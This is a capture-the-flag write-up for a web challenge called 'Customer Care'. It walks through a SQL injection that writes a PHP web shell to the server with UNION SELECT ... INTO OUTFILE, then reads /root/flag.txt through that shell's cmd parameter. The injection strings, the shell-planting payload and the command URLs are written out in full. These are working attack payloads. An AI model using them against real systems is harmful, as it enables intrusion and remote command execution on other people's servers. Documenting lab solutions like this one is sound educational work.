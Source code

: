 ## Customer Care

<p align="center">
<img src="chall.png"/>
</p>
<hr>
<p align="center">
<img src="page.png" />
</p>

This challenge was a simple sql injection vulnerability. 
There is a text input in the main page. If you try special inputs like ```1' or 1=1 ; #``` you will realize this input can be exploited with sql injection.

<p align="center">
<img src="page_2.png"/>
</p>

On the other hand if you try an invalid url you will see this in 404 page:

<p align="center">
<img src="page_3.png"/>
</p>

So the web files are stored in the address ```/var/www/ecustomers/```

Let's see if we can get a shell by using this payload:

```1' union select "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE "/var/www/ecustomers/sth.php" ; #```

In this payload we write a php code into a file called 'sth.php' that executes shell commands.

Now to see if we have successfully uploaded the payload we enter this url: ```sth.php?cmd=uname+-a```

```uname -a``` is just an example. I could try any other linux commands as long as it gave me some output.

<p align="center">
<img src="page_4.png"/>
</p>

Now that we have access to shell if we look around the server files we can find these files in /root directory.

<p align="center">
<img src="page_5.png"/>
</p>

Finally we can enter this url ```sth.php?cmd=cat+/root/flag.txt``` and get the flag.
